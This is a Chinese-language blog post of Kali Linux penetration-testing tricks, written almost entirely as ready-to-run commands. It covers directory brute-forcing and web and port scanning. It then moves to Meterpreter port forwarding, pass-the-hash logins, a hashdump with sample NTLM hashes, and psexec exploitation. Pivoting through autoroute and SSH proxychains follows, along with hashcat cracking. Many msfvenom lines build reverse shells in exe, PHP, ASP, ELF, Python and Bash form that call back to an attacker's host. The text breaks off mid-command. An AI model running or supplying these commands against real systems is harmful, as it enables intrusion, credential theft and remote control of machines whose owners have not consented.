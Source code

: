 ```yaml
---
author: 星火燎原@vxhly
title: kali 下渗透测试的一些小技巧
categories: [pentest]
tags: [Pentest, Security, Liunx]
date: 2017-05-20 13:23:12
---
```


::: tip 前言
总结在渗透测试上的一些小技巧, 基本上都是 kali 下的一些常用的工具使用集合
:::
<!-- more -->

## DIRB

### 使用 DIRB 爆破目录

注: [DIRB](//dirb.sourceforge.net/) 是一个专门用于爆破目录的工具, 在 Kali 中默认已经安装, 类似工具还有国外的 [patator](//github.com/lanjelot/patator), [dirsearch](//github.com/maurosoria/dirsearch), [DirBuster](//www.owasp.org/index.php/Category: OWASP_DirBuster_Project), 国内的御剑等等。

``` bash
dirb http://[IP]:PORT /usr/share/dirb/wordlists/common.txt
```

## Niko

### 使用 Nikto 扫描 Web 服务

``` bash
nikto -C all -h http://[IP]
```

## wpscan

### 使用 wpscan 扫描 WordPress

``` bash
git clone https://github.com/wpscanteam/wpscan.git && cd wpscan
./wpscan –url <http:http://[IP]/> –enumerate p
```

## httprint

### 使用 httprint 进行 HTTP 指纹识别

``` bash
wget //www.net-square.com/_assets/httprint_linux_301.zip && unzip httprint_linux_301.zip
cd httprint_301/linux/
./httprint -h http://[IP] -s signatures.txt
```

## Skipfish

### 使用 Skipfish 进行 Web 应用安全

注: Skipfish 是一款 Web 应用安全侦查工具, Skipfish 会利用递归爬虫和基于字典的探针生成一幅交互式网站地图, 最终生成的地图会在通过安全检查后输出。

``` bash
skipfish -m 5 -LY -S /usr/share/skipfish/dictionaries/complete.wl -o ./skipfish2 -u http://[IP]
```

## nc

### 使用 nc 进行扫描

``` bash
nc -v -w 1 target -z 1-1000
for i in {101..102};do nc -vv -n -w 1 192.168.56.$i 21-25 -z;done
```

## us

### 使用 Unicornscan 进行信息收集和安全审计

``` bash
us -H -msf -Iv 192.168.56.101 -p 1-65535
us -H -mU -Iv 192.168.56.101 -p 1-65535

# -H 在生成报告阶段解析主机名
# -m 扫描类型 (sf - tcp, U - udp)
# -Iv - 详细
```

## Xprobe2

### 使用 Xprobe2 识别操作系统指纹

``` bash
xprobe2 -v -p tcp:80:open IP
```

## Meterpreter

### 使用 Meterpreter 进行端口转发

``` bash
# //www.offensive-security.com/metasploit-unleashed/portfwd/
# 转发远程端口到目标地址

meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.141
kali > rdesktop 127.0.0.1:3389
```

### 使用 Meterpreter 获取哈希值

``` bash
git clone https://github.com/byt3bl33d3r/pth-toolkit
pth-winexe -U hash http://[IP] cmd

# 或者

apt-get install freerdp-x11
xfreerdp /u:offsec /d:win2012 /pth:HASH /v:IP

# 在或者

meterpreter > run post/windows/gather/hashdump
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > exploit
meterpreter > shell
```

#### 使用 Hashcat 破解密码

``` bash
hashcat -m 400 -a 0 hash /root/rockyou.txt
```

### 使用 metasploit 进行穿透

``` bash
route add X.X.X.X 255.255.255.0 1
use auxiliary/server/socks4a
run
proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E

#或者

# //www.offensive-security.com/metasploit-unleashed/pivoting/
meterpreter > ipconfig
IP Address  : 10.1.13.3
meterpreter > run autoroute -s 10.1.13.0/24
meterpreter > run autoroute -p
10.1.13.0          255.255.255.0      Session 1
meterpreter > Ctrl+Z
msf auxiliary(tcp) > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 10.1.13.2
msf exploit(psexec) > exploit
meterpreter > ipconfig
IP Address  : 10.1.13.2
```

## ssh

### SSH 穿透

``` bash
ssh -D 127.0.0.1:1080 -p 22 user@IP
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains commands target
```

### SSH 穿透从一个网络到另一个网络

``` bash
ssh -D 127.0.0.1:1080 -p 22 user1@IP1
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2
Add socks4 127.0.0.1 1081 in /etc/proxychains.conf
proxychains commands target
```

## msfvenom

### MSF Payloads

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> X > system.exe
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 R > exploit.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -a x86 --platform win -f asp -o file.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e x86/shikata_ga_nai -b "\x00" -a x86 --platform win -f c
```

### MSF 生成在 Linux 下反弹的 Meterpreter Shell

``` bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -f elf -a x86 --platform linux -o shell
```

### MSF 生成反弹 Shell (C Shellcode)

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d" -a x86 --platform win -f c
```

### MSF 生成反弹 Python Shell

``` bash
msfvenom -p cmd/unix/reverse_python LHOST=127.0.0.1 LPORT=443 -o shell.py
```

### MSF 生成反弹 ASP Shell

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp -a x86 --platform win -o shell.asp
```

### MSF 生成反弹 Bash Shell

``` bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.sh
```

### MSF 生成反弹 PHP Shell

``` bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.php
add <?php at the beginning
perl -i~ -0777pe's/^/<?php \n/' shell.php
```

### MSF 生成反弹 Win Shell

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Co
```

